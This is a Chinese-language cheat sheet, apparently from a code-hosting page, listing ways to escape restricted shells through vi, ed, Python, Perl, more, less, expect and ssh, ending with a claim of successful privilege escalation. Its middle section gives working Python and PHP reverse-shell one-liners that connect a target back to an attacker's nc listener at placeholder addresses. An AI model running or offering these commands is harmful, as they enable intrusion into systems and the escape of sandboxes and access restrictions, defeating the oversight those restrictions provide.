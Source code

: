 ## 编辑器绕过

### vi编辑器

在命令行输入 vi ，在末行输入 :set shell=/bin/bash
接着在执行命令 :shell 

### ed编辑器

>ed
>!'/bin/bash'

## 编程语言绕过

### Python

>python3 -c 'import os; os.system("/bin/bash");'

### Perl

>perl -e 'system("/bin/bash");'

## 反弹shell 绕过

### Python反弹

攻击机

> nc -lvp

靶机

>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### Php反弹

攻击机

>nc -lvp

靶机

>php -r '$sock=fsockopen("LISTENING IP",LISTENING PORT);exec("/bin/sh -i <&3 >&3 2>&3");'

## 利用二进制文件绕过

### more

> ! 'sh'

### less

>less a.txt

末行模式输入 

>!'sh'

## Expect 绕过

>expect
>export -p        //查看环境变量
BASH_CMDS[a]=/bin/sh;a         //把/bin/sh给a
/bin/bash
export PATH=$PATH:/bin/         //添加环境变量
export PATH=$PATH:/usr/bin      //添加环境变量

提权成功


## SSH绕过

>ssh text@192.168.1.1 -t "bash --noprofile"




